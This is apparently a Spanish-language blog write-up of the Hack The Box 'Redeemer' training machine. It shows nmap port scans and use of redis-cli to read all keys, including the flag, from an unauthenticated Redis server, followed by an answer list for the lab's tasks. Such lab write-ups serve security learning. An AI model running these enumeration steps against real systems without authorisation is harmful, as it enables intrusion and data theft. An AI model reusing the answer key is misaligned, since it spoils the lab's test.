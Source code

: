 ```yaml
---
title: HTB - Tier 0 - Redeemer Writeup
date: 2022-08-09 09:30:00 +0800
categories: [HTB, Writeup]
tags: [htb, writeups]     # TAG names should always be lowercase
---
```


Con este post finalizamos la serie **Tier 0** del **Starting Point** de [HTB](https://app.hackthebox.com/starting-point) que iniciamos [aquí]({% post_url 2022-08-09-htb-writeup-tier0-meow %}).

## Redeemer

El primer paso será iniciar la máquina (para lo que previamente tendremos que tener establecida nuestra conexión VPN)

![](/assets/posts/20220809/img05.png)

Copiamos la IP del equipo remoto, en mi caso *10.129.213.71*, y lanzamos un **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A 10.129.213.71    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:46 CEST
Nmap scan report for 10.129.213.71
Host is up (0.12s latency).
All 1000 scanned ports on 10.129.213.71 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.81 seconds
```

Ups !! ... nobody listen :(
  
Vamos a por todos los puertos utilizando la flag ```-p-```&nbsp;, no solo los 1000 de ```-A```&nbsp;.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A -p- 10.129.213.71
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:48 CEST
Nmap scan report for 10.129.213.71
Host is up (0.075s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.85 seconds
```

Ahora si. Tenemos el puerto *6379/tcp* con el servicio *redis* escuchando. Para los que no sepáis qué es **Redis** podéis informaros [aquí](https://redis.io/).

Utilizamos **redis-cli** para conectarnos con el comando ```-h```&nbsp; para indicarle el host.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ redis-cli -h 10.129.213.71
10.129.213.71:6379> 
```

Ejecutamos *info*

```console
[...]
10.129.213.71:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
[...]
10.129.213.71:6379>
```

Lanzamos un *select*, le pedimos todas las *keys* y volcamos con *get* la que nos interesa.

```console
[...]
10.129.213.71:6379> select 0
OK
10.129.213.71:6379> keys *
1) "numb"
2) "flag"
3) "stor"
4) "temp"
10.129.213.71:6379> get flag
"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
10.129.213.71:6379>
```

Enhorabuena a los que habéis llegado hasta aquí.

## Respuestas:

* <strong>Task 1</strong>: 6379
* <strong>Task 2</strong>: redis
* <strong>Task 3</strong>: In-memory Database
* <strong>Task 4</strong>: redis-cli
* <strong>Task 5</strong>: -h
* <strong>Task 6</strong>: info
* <strong>Task 7</strong>: 5.0.7
* <strong>Task 8</strong>: select
* <strong>Task 9</strong>: 4
* <strong>Task 10</strong>: keys *